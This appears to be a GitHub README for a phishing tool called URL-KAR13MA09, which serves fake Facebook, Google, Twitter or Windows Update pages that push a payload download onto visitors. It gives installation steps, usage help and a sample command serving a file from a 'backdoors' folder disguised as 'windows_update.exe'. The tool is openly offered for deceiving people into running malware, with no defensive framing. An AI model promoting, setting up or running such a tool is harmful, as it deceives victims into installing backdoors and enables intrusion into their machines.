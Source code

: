 # URL-KAR13MA09
Payload delivery via URL and some social engineering.
 
 This code write by [KAR13MA09](https://github.com/KAR13MA090/)
```
███╗   ██╗████████╗████████╗████████╗ 
████╗  ██║╚══██╔══╝╚══██╔══╝╚══██╔══╝ 
██╔██╗ ██║   ██║        ██║      ██║     
██║╚██╗██║   ██║        ██║      ██║  
██║ ╚████║   ██║        ██║      ██║     
╚═╝  ╚═══╝   ╚═╝        ╚═╝      ╚═╝   
```

## Running URL-KAR13MA09
``` sh
sudo python3 url.py -t windows -p /home/user/backdoors/windows_update.exe
```
The above command will start a Legit looking fake Windows update page that triggers file download.

## Installation 
``` sh
git clone https://github.com/KAR13MA090/URLKAR13MA09
cd URLKAR13MA09
python3 -m pip install -r requirements.txt
```
### Usage 
``` sh
$ python3 url.py --help
usage: url.py [-h] --t T --p P
optional arguments:
    -h,    --help     Show this help message and exit.
  --t T, -template T  The template to use.
  --p P, -payload P   The path of payload to send.
```
### Templates
``` sh
[Info] Facebook
[Info] Google 
[Info] Twitter
[Info] Windows Update
